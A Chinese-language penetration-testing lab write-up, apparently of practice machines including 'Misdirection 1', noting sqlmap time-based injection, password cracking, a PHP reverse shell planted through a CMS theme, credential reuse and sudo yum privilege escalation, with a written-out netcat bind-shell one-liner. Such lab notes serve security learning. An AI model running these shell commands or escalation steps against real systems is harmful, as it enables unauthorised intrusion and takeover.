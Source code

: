 
sqlmap太慢了 题目提示也说利用脚本 漏洞利用的能力太差了 找脚本找了半天 常规手段进不去就应该思考一下 漏洞利用

## sqlmap
但是非常非常慢 貌似延时注入 
![image.png](https://s2.loli.net/2025/04/20/c4tEmGgMqCL2eJj.png)


## 密码破解

![image.png](https://s2.loli.net/2025/04/20/7oVHmDZjhw8xqnL.png)

## 登录后台管理系统

登进去之后要去找找有什么执行php代码的地方吗 特别是网页的主题 类似的有php代码的地方 插入php反弹shell 能反弹成功

## 信息收集
有网页管理系统这种类似的 需要先去/var/www/html找配置文件 也许有密码 

## msql信息收集
在这个目录中找到了mysql的配置文件和密码 登录mysql查看有什么有用的吗

并没有 

cat  /etc/passwd发现了一个新用户 也许我们能su到那个用户

有个离谱的点就是数据库的密码就是那个用户的密码 遇到密码可以多试试

## 依旧信息收集

sudo -l发现了yum 使用yum提权 可以成功获得root权限


# Misdirection 1
## nmap扫描端口和文件爆破

扫描出8080有个终端 有个wp登录页面 

## 绑定shell
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

nc -nv TARGET_IP 8080
```

![image.png](https://s2.loli.net/2025/04/21/j4hebsy8r6wWkcF.png)

## 信息收集

